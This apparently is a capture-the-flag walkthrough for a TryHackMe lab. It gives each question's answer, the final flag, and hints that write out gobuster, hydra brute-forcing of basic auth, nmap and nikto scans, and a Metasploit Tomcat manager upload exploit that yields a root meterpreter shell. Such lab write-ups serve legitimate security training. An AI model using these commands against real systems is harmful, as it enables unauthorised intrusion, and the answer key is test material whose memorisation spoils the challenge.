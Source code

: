 #### Link to room: https://tryhackme.com/room/toolsrus

#### [Task 1] ToysRus
   1. guidelines
> Hint: 
>
> Typed in the following command into the terminal: 
>
> "gobuster dir -u \<GIVEN-IP-ADDRESS\> -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt" 
   2. bob
> Hint: 
>
> From the output in task 1, you should see some discovered directories
>
> Navigate to the page in a browser: 
>
> http://\<GIVEN-IP-ADDRESS\>/guidelines/
   3. protected
> Hint: 
>
> From the output in task 1, you should see some discovered directories
>
> Navigate to the page in a browser: 
>
> http://\<GIVEN-IP-ADDRESS\>/guidelines/
>
> You will then be prompted for basic authentication 
   4. bubbles
> Hint: 
>
> Type the following command into terminal: 
>
> hydra -l bob -P /usr/share/wordlists/rockyou.txt \<GIVEN-IP-ADDRESS\> http-get /protected
   5. 1234
> Hint: 
>
> Type in the command "nmap -sC -sV \<GIVEN-IP-ADDRESS\>"
>
> -sC = Use default scripts to scan the IP address 
>
> -sV = Use for service/version detection 
>
> You should get an ouput like this 
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1a:c9:84:d6:1b:78:6c:e4:3a:64:ca:ea:e6:11:92 (RSA)
|   256 a2:ab:a9:d3:4d:a2:31:70:21:5c:b4:8b:a4:6c:1c:cc (ECDSA)
|_  256 6b:7e:6a:ab:46:3a:e2:cb:38:e9:84:9d:05:a8:53:33 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
> You can see that on port 1234 there are also HTTP running so therefore it is that port since port 8009 has no HTTP running on it
   6. Apache Tomcat/7.0.88
> Hint
>
> Looking at the NMAP output you should be able to see something like "http-title:"
>
> This contains the information for the service name and port 
   7. 5
> Hint: 
>
> For me the nikto scan didnt work however a command something like would work: 
>
> nikto -id bob:bubbles -h http://\<GIVEN-IP-ADDRESS\>:1234/manager/html
>
> In addition if you navigate to "http://\<GIVEN-IP-ADDRESS\>:1234/manager/html" on a browser 
>
> And enter the credentials found for question 4 
>
> You will be able to see the documents there too
>
   8. Apache/2.4.18
> Hint
>
> Looking at the NMAP output you should be able to see something like "http-server-header" for port 80 
   9. 1.1
> Hint
>
> Looking at the NMAP output you should be able to see something like "http-server-header" for port 1234 
   10.
> Hint: 
>
> From out nmap scan we saw that the version for Apache Tomcat was 7.0.88
>
> If we were to search for "Apache Tomcat/7.0.88 exploit metasploit" into google
>
> We should come across this (web page)[https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload]
>
> If we type "msfconsole" into a terminal 
>
> Then type "use exploit/multi/http/tomcat_mgr_upload"
>
> And "set rhost \<GIVEN-IP-ADDRESS\>"
>
> And "set HttpPassword bubbles"
>
> And "set HttpUsername bob" 
>
> And "set rport 1234" 
>
> And finally type "run"
>
> We should get a meterpreter shell 
>
> If you type "pwd" for print working directory 
>
> We will see that we are in the "/" directory meaning that we are the root user 
   11. ff1fc4a81affcc7688cf89ae7dc6e0e1
> Hint: 
>
> Type the command "cat /root/flag.txt" to get the answer
